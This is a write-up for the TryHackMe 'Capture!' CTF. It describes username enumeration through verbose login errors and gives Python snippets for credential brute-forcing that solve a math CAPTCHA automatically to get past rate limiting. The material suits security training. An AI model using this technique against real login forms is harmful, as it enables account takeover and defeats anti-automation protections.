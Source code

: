 # Capture!

![Secure Sola Coders Logo](./secure-sola-coders.png "Secure Sola Coders Logo")

## Summary

[Capture!](https://tryhackme.com/room/capture "Capture Room On TryHackMe") is a CTF hosted on the [TryHackMe website](https://tryhackme.com/ "TryHackMe Website") and created by the user [Toxicat0r](https://tryhackme.com/p/toxicat0r "Toxicat0r's TryHackMe Profile"). The room contains a single flag that can be found through bypassing the target web pages authentication mechanism via bruteforcing credentials. The major hurdle in attempting to bypass the login arises from [rate-limiting](https://www.cloudflare.com/learning/bots/what-is-rate-limiting/ "CloudFlare Article On Rate Limiting") our requests. After about 3 attempts, a CAPTCHA appears that involves solving simple mathematical expressions.

**Description Used In Room:**

> Can you bypass the login form?

> SecureSolaCoders has once again developed a web application. They were tired of hackers enumerating and exploiting their previous login form. They thought a Web Application Firewall (WAF) was too overkill and unnecessary, so they developed their own rate limiter and modified the code slightly.

## Contents

* [Information Disclosure](#information-disclosure "Jump To Information Disclosure Section")
* [The Obstacle](#the-obstacle "Jump To The Obstacle")
* [A Possible Solution](#a-possible-solution "Jump To A Possible Solution")
* [Helpful Tools](#helpful-tools "Jump To Helpful Tools")
* [Code Examples](#code-examples "Jump To Code Examples")
* [Conclusion](#conclusion "Jump To Conclusion")

## Information Disclosure

If we visit the target website we'll be redirected to a login page.

![Login Page](./login-form.png "Login Page")

Messing around with the login form by supplying any random credentials, such as ```fakeperson:fakepassword```, we can easily see where the vulnerability lies. Overly verbose error messages. This vulnerability is known as [Information Disclosure](https://portswigger.net/web-security/information-disclosure "PortSwigger Article On Information Disclosure") and in this case can be exploited to enumerate usernames since the message specifically tells us whether a user exists.

![Username Does Not Exist](./username-error.png "Username Does Not Exist")

[Back To Top](#capture "Jump To Top")

---

## The Obstacle

When we try to enumerate the usernames we'll run into a problem. Our attempts are [rate-limited](https://www.cloudflare.com/learning/bots/what-is-rate-limiting/ "CloudFlare Article On Rate Limiting"). After several requests we'll need to pass a CAPTCHA that involves solving a mathematical problem.

![Too Many Logins Error](./too-many-logins.png "Too Many Logins Error")

[Back To Top](#capture "Jump To Top")

---

## A Possible Solution

A possible solution is to create a Python program to complete the below steps:

1. Load usernames and passwords into memory.
2. Iterate usernames.
3. For each username craft an HTTP POST request with username and a bad password.
4. Check if CAPTCHA has been triggered by parsing the HTML returned by the POST request for the following error message: ```Captcha enabled```.
5. If CAPTCHA is present grab the mathematical expression.
6. Strip the mathematical expression down to its two operands and operator.
7. Solve the expression.
8. Craft a new HTTP POST request with the same username and password but this time add a CAPTCHA parameter that contains the result from step 7.
9. Check the response HTML for the string ```The user &#39;[username goes here, remove brackets]&#39; does not exist```
10. If the username error appears in the HTML, move on to the next user and start the steps again. If the username error **does not** appear, a valid user has been found.

After a username has been found, the same steps from above can be used to enumerate passwords. Just be sure to check for the password error message and not the username error message (slightly modify steps 2, 3, 9, 10).

[Back To Top](#capture "Jump To Top")

---

## Helpful Tools

Here are some helpful Python libraries that will help you solve the steps above.

* [re](https://www.w3schools.com/python/python_regex.asp "W3 Schools Article On Python Regex") - RegEx library to help pulling the mathematical expression out of the form.
* [requests](https://docs.python-requests.org/en/latest/ "Python Requests Library Documentation") HTTP Requests library to help with sending POST requests and sending POST body data.
* [BeautifulSoup](https://pypi.org/project/beautifulsoup4/ "Beautiful Soup Documentation") - HTML parsing library to help pull the form out of every HTML response and parse through it (optional).

[Back To Top](#capture "Jump To Top")

---

## Code Examples

Sending POST Request:

```python
# Create POST Body Data
data = {'username': username_here, 'password': password_here}

# Send POST Request
response = requests.post(url_here, data=data)
```

Getting HTML Response From POST Request:

```python
# Send POST Request
response = requests.post(url_here, data=data)

# Grab HTML From Response
html = response.text
```

Looking For Error Messages:

**NOTE -** Using the error messages taken directly from the webpage won't work, you'll need to use the error messages as they appear in the HTML. Instead of the ```'``` character use the HTML encoding of the same character.

```python
# Look For CAPTCHA Error In HTML
if "Captcha enabled" in html:
    # Do Something

# Look For Valid Username By Checking If Username Error Does NOT Exist In HTML
if f"The user &#39;{username}&#39; does not exist" not in html:
    # Do Something

# Look For Valid Password By Checking If Password Error Does NOT Exist In HTML
if f"Invalid password for user &#39;{username}&#39;" not in html:
    # Do Something
```

Grabbing Form In HTML:

**NOTE -** The mathematical problem for the CAPTCHA is a child of the ```<form>``` element. It is **not** in it's own pair of tags.

```python
# Use BeautifulSoup Library To Create Parsable HTML Object
soup = BeautifulSoup(html, 'html.parser')

# Search The Soup Object For The Form
form_element = soup.find('form')

# Return Only The Text Within The Form, No HTML Tags.
text_content = form_element.get_text(strip=True)
```

Grabbing Expression In Form With Regex:

**NOTE -** ```r'\d+\s[+\-*]\s\d+\s=\s\?'``` will match the following format:

* Number, space, ```+``` ```-``` or ```*```, space, number, ```=```, space, ```?``` 

```python
# Get Matching Result Object From Regex On HTML Form That Was Stripped Of Tags In The Last Code Example
match_result = re.search(r'\d+\s[+\-*]\s\d+\s=\s\?', text_content)

# Grab The Expression From The Match Result Object
expression = match_result.group()
```

Solving The Expression:

```python
# Split The Expression Returned By The RegEx Into Pieces
expression_pieces = expression.split()

# Grab First Number
operand_1 = expression_pieces[0]

# Grab Operator
operator = expression_pieces[1]

# Grab Second Number
operand_2 = expression_pieces[2]

# Solve Expression
if operator == '+':
    result = int(operand_1) + int(operand_2)
elif operator == '*':
    result = int(operand_1) * int(operand_2)
elif operator == '-':
    result = int(operand_1) - int(operand_2)

# Return Result So It Can Be Appended To The Second POST Requests CAPTCHA Parameter
return result
```

Resend Request With New Parameter And Solved CAPTCHA:

```python
# Append New Parameter With Solved CAPTCHA As Value In Pre-Exisiting Data Variable
data['captcha'] = result

# Resend Request With Updated POST Body Data
response = requests.post(url_here, data=data)
```

[Back To Top](#capture "Jump To Top")

---

## Conclusion

To successfully solve this CTF you will need to create a custom script capable of solving the CAPTCHA every time you make a request. I added my own [Python script to solve this CTF](./capture.py "My Solution To This CTF") within this folder, feel free to look at it if you get stuck. Keep in mind it is a quick solution so the code used is not the best way to do things, nor is it the cleanest code. It also makes assumptions in some parts with little or no error handling, but it does work in finding both the username and password while solving the CAPTCHA.

[Back To Top](#capture "Jump To Top")
